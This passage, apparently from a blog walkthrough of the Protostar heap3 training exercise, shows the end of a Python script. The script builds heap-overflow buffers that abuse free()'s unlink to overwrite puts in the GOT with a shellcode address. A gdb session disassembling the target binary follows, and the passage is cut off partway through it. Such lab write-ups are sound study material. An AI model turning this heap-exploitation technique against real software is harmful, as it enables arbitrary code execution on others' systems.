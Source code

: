 buf2 += struct.pack('I', 0xfffffffc)*2

# third argument
buf3 = ''
buf3 += '\xff'*4 # junk
buf3 += struct.pack('I', 0x804b128-12) # puts@GOT-12
buf3 += struct.pack('I', 0x804c040) # address of the shellcode

files = ["/tmp/A", "/tmp/B", "/tmp/C"]
buffers = [buf1, buf2, buf3]

for f_name, buf in zip(files, buffers):
        with open(f_name, 'wb') as f:
                f.write(buf)
{% endhighlight %}
We will step through gdb and check how this works.
We place breakpoints:
1. After all malloc but bfore strcpy.
2. After all strcpy but before free.
3. After first free.
and place hook-stop to print heap and `GOT` each time breakpoint is hit.
{% highlight shell %}
user@protostar:~$ gdb /opt/protostar/bin/heap3
Reading symbols from /opt/protostar/bin/heap3...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048889 <main+0>:	push   ebp
0x0804888a <main+1>:	mov    ebp,esp
0x0804888c <main+3>:	and    esp,0xfffffff0
0x0804888f <main+6>:	sub    esp,0x20
0x08048892 <main+9>:	mov    DWORD PTR [esp],0x20
0x08048899 <main+16>:	call   0x8048ff2 <malloc>
0x0804889e <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080488a2 <main+25>:	mov    DWORD PTR [esp],0x20
0x080488a9 <main+32>:	call   0x8048ff2 <malloc>
0x080488ae <main+37>:	mov    DWORD PTR [esp+0x18],eax
0x080488b2 <main+41>:	mov    DWORD PTR [esp],0x20
0x080488b9 <main+48>:	call   0x8048ff2 <malloc>
0x080488be <main+53>:	mov    DWORD PTR [esp+0x1c],eax
0x080488c2 <main+57>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488c5 <main+60>:	add    eax,0x4
0x080488c8 <main+63>:	mov    eax,DWORD PTR [eax]
0x080488ca <main+65>:	mov    DWORD PTR [esp+0x4],eax
0x080488ce <main+69>:	mov    eax,DWORD PTR [esp+0x14]
0x080488d2 <main+73>:	mov    DWORD PTR [esp],eax
0x080488d5 <main+76>:	call   0x8048750 <strcpy@plt>
0x080488da <main+81>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488dd <main+84>:	add    eax,0x8
0x080488e0 <main+87>:	mov    eax,DWORD PTR [eax]
0x080488e2 <main+89>:	mov    DWORD PTR [esp+0x4],eax
0x080488e6 <main+93>:	mov    eax,DWORD PTR [esp+0x18]
0x080488ea <main+97>:	mov    DWORD PTR [esp],eax
0x080488ed <main+100>:	call   0x8048750 <strcpy@plt>
0x080488f2 <main+105>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488f5 <main+108>:	add    eax,0xc
0x080488f8 <main+111>:	mov    eax,DWORD PTR [eax]
0x080488fa <main+113>:	mov    DWORD PTR [esp+0x4],eax
0x080488fe <main+117>:	mov    eax,DWORD PTR [esp+0x1c]
0x08048902 <main+121>:	mov    DWORD PTR [esp],eax
0x08048905 <main+124>:	call   0x8048750 <strcpy@plt>
0x0804890a <main+129>:	mov    eax,DWORD PTR [esp+0x1c]
0x0804890e <main+133>:	mov    DWORD PTR [esp],eax